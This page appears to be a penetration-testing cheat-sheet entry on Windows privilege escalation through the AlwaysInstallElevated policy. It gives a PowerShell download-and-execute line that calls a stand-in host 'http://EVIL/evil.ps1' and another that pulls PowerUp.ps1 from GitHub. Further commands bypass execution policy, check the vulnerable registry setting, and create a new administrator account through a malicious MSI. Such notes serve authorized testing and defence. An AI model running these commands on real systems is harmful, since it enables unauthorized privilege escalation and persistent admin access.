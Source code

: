 ## Always Install Elevated

Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges. This can be discovered in environments where a standard user wants to install an application which requires system privileges and the administrator would  like to avoid to give temporary local administrator access to a user.

Get https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

In Powershell
```
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
or
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")
```

```
powershell -ep bypass
Import-Module PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

If the last command returns True, system is vulnerable.

You can add an admin user by typing the following command.

```
Write-UserAddMSI 
```

You will get a prompt to enter the username and the password for the new user.

Another way https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842


### References
https://pentestlab.blog/2017/02/28/always-install-elevated/
